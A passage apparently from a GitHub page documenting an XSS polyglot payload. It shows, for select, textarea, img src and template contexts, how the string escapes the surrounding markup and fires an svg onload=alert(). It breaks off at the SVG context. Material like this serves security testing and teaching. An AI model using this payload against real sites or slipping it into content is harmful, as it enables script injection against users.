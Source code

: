 - Result from payload

```html
<select><option>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></option></select>
```

### Context #9: HTML Textarea

- Code snippet

```html
<textarea>payload</textarea>
```

- Result from payload

```html
<textarea>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></textarea>
```

### Context #10: HTML Image

- Code snippet

```html
<img src="payload" alt="" />
```

- Result from payload

```html
<img src=""
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg>" alt="" />
```

### Context #11: HTML Template

- Code snippet

```html
<template>payload</template>
```

- Result from payload

```html
<template>"
x=//`//</style></title></math></select></template></textarea><svg x=*/
onload=alert()//></svg></template>
```

### Context #12: HTML SVG

- Code snippet
